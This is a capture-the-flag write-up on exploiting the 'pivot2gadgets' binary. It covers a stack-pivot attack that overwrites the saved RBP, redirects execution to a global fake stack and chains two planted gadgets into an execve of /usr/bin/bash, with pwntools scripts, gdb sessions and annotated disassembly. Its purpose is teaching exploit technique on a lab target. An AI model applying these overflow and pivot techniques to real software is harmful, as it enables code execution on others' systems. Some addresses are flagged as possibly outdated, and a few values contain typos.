## General overview of exploit

**1.**

# \*\*The exact memory addresses (eg. breakpoints, etc.) may not be accurate as the binary have been modified - pending update to the images and notes

## Intended solve path

**1. Static analysis with Ghidra**

We can see that the `main` function calls a `vuln` function:




The `vuln` function calls two `read` functions:

- the 1st reads 0x100 bytes of data into `global_fake_stack`
- the 2nd reads 0x38 (56) bytes of data into a buffer variable (renamed to `buf`) of size 48
  - this results in a overflow of 8 bytes

Recall that the memory addresses for RBP and RIP (saved when the `vuln` function is called) are placed directly above the `buf` variable in the following order:

```text
--------------- higher memory addres
RIP (8 bytes)
RBP (8 bytes)
---------------
buf (48 bytes)
--------------- lower memory address
```

- this means that we are only able to overwrite 56-48=8 bytes pass the `buf` variable and fully overwrite the stored RBP value
  - the RIP will not be overwritten

**2. Further static anaylsis of function & variable (Ghidra + gdb)**

The challenge description states "hidden gadgets". Lets search for "gadget" in the symbol tree:



- we can see the `custom_gadget` and `gadget` functions



We can find the addresses for both functions directly in Ghidra. An alternative will be to use gdb:

- `gadget`: 0x401941
- `custom_gadget`: 0x401905



Notice that the decompiled function source codes are not really useful. Lets take a look at the disassembly instead:




Also, take note of the `global_fake_stack` address:



- 0x4abb20

**3. Perform dynamic analysis with gdb**

Lets first generate a string of length 48 bytes

```shell
$ pwn cyclic 48
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
```

### **GDB commands overview**

```shell

gef➤  disass vuln # view the disassembly of the 'vuln' function
gef➤  break *0x000000000040198d # set a breakpoint on the 'leave' ret

gef➤ run # start the program
globalfakestack # written to 'global_fake_stack'
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaafakeRBPV # 48 padding + 'fakeRBPV'

# view value at the stored RBP address (in string format)
gef➤  x/s $rbp

# get address of 'global_fake_stack'
gef➤  info variables global_fake_stack

# view value in 'global_fake_stack'
gef➤  x/s 0x00000000004abb20

```

### **GDB output**




**4. Investigating overwrite of RBP (in the `vuln` function)**

Recall the instructions executed during a `leave`:

```asm
mov rsp, rbp
pop rbp
```

The 1st instruction moves current value in RBP into RSP. The 2nd instruction will pop the value on the top of the stack into RBP.

Since we are able to overwrite the value in the stored RBP in the `vuln` function, we can control the value popped and saved into the RBP.

Build a script to run the same **gdb** commands shown previously with slight changes:

- break on the `ret` instruction instead (next line after `leave`)
- replace the fake RBP value with that of the `global_fake_stack`. This will allow us to overwrite the RSP in the later steps

```python
from pwn import *

# only output errors
context.log_level = 'error'

elf = context.binary = ELF("./pivot2gadgets")

# define gdb commands: set breakpoint + continue
gdbscript = '''
b *0x40198e
continue
'''

# launch process inside gdb
p = gdb.debug(elf.path, gdbscript=gdbscript)

# define value to place into "global_fake_stack"
payload = flat(
    [
        0x13371337
    ]
)
p.send(payload)
sleep(1)

payload = b"A" * 48
payload += p64(0x4abb20) # overwrite RBP with address of "global_fake_stack"
p.send(payload)

p.interactive()
```

A new gdb window will open:

```shell
gef➤ p $rbp
0x4abb20 # address of the "global_fake_stack"
```

**5. Investigating the overwrite of RSP (for stack pivoting) - from within the `main` function**

Within the `main` function, there will be another series of `leave` and `ret` instructions

Recall the instructions executed during a `leave` and `ret`:

> NOTE: this does not directly reflect the actual instructions of the `ret` instruction, but merely illustrates the concept

```asm
; leave
mov rsp, rbp
pop rbp

; ret
pop rax
jmp rax
```

Behavior when the `leave` and `ret` instructions are called at the end of `main`:

- `leave`
  - moves the current value in RBP into RSP
  - recall that we control the RBP value (from the `vuln` function)
  - this allows us to control the RSP value and pivot to our `global_fake_stack`
- `ret`
  - since we control the value in the new stack frame, we are able to control the address that is popped into RAX, and jumped to (`jmp` instruction)
  - this effectively allows us to hijack the function call



Lets set a breakpoint on the `ret` instruction (**0x4019d8**) by modifying the script as follows:

```python
# define gdb commands: set breakpoint + continue
gdbscript = '''
b *0x4019d8
continue
'''
```

### **GDB commands overview**

After running the Python script, we can perform dynamic anaylsis:

```shell
(remote) gef  p $rsp # view memory address stored in $rsp
(remote) gef  x/wx $rsp # view value stored in the memory address pointed to by $rsp ("global_fake_stack")

(remote) gef  p $rbp
```

### **GDB output**



After the `pop rbp` instruction in `leave`:

- RSP will now contain the address: (`0x4abb20`) "global_fake_stack" + 8
  - `pop` will decrement the RSP automatically
- since we defined the value `0x13371337` at the top of the "global_fake_stack", the RBP will contain that value

**6. Crafting + investigating payload**

### 6.1 Payload structure

We will be using the following payload structure:

```text
----------------- higher memory address
0x12345678
0x401947
0xC001BABE
0x401905
0x13371337
----------------- lower memory address

```

Since the RSP will decrement (move from higher to lower memory addresses as values are popped from the stack), we can control the exact values on the top of the stack at each point in the gadget

Modify the payload in the exploit script:

```python
payload = flat(
    [
        0x12345678, # modify from 0x13371337 to 0x12345678 to prevent confusion with values below
        0x401947,
        0xC001BABE,
        0x401905,
        0x13371337
    ]
)
```

### **GDB commands overview**

After running the Python script, we can perform dynamic anaylsis once again:

```shell
(remote) gef  x/gx $rsp # will point to the 'gadget' function (0x401947) - "x/gx" means to print in 64 bits (8 bytes) hex representation
(remote) gef  nexti # execute 'ret' instruction
(remote) gef  x/gx $rsp # will point to '0xc001babe'
(remote) gef➤  telescope -l 10 $rsp
(remote) gef➤  x/4i $rip
```





Instructions in `gadget` function:



Explanation of the core instructions in `gadget`:

- `pop r12`
  - pop top value on stack into register R12 (**0xc00lbabe**)

- `ret`
  - jump to the address stored at the top of stack (**0x401905**)

### 6.2 Behavior of `gadget` function

Overview of what happens as we move through each line of instruction:

1. `endbr64`

- not relevant in this challenge

2. `pop 12`

- **r12** now contains `0xc00lbabe`



3. `ret`

- jumps to **custom_gadget** (`0x401905`)



### 6.3 Behavior of `custom_gadget` function

```sh
(remote) gef➤  x/20i *custom_gadget
=> 0x401905 <custom_gadget>:	endbr64
   0x401909 <custom_gadget+4>:	mov    rax,0x3b # loads requirements for final syscall
   0x401910 <custom_gadget+11>:	cmp    r12d,0xc001babe # check R12==0xc001babe
   0x401917 <custom_gadget+18>:	jne    0x401935 <custom_gadget+48> # jumps to 'fail'
   0x401919 <custom_gadget+20>:	lea    rdi,[rip+0x16] # loads RDI with command string (1st arg to syscall)
   0x401920 <custom_gadget+27>:	mov    rsi,QWORD PTR [rsp] # pass the current value referenced by RSP into RSI register
   0x401924 <custom_gadget+31>:	cmp    rsi,0x13371337 # check RSI(value from RSP)==0x13371337
   0x40192b <custom_gadget+38>:	jne    0x401935 <custom_gadget+48> # jumps to 'fail'
   0x40192d <custom_gadget+40>:	xor    rsi,rsi # loads requirements for final syscall
   0x401930 <custom_gadget+43>:	xor    rdx,rdx # loads requirements for final syscall
   0x401933 <custom_gadget+46>:	syscall # provides remote-code execution (RCE)
   0x401935 <custom_gadget+48>:	ret # 'fail' -> return

```

Overview of `custom_gadget` function:

1. Loads required values for the final system call (RCE)

- the instructions for these steps are spread out across the gadget to ensure that players are not able to directly jump to an instruction in the middle of this gadget

2. Checks that R12 contains the value `0xc001babe`

3. Checks that the value stored in the address on the top of the stack (`[rsp]`) contains the value `0x13371337`

- take note that this does not mean the value in the RSP itself (`0x4abb40`), but rather the value stored in the address in the RSP instead (`0x0000000013371337`)



4. `syscall` -> remote-code execution (RCE)

**<custom_gadget+49>** loaded into RDI register as 1st argument to syscall (RCE) contains "/usr/bin/bash"


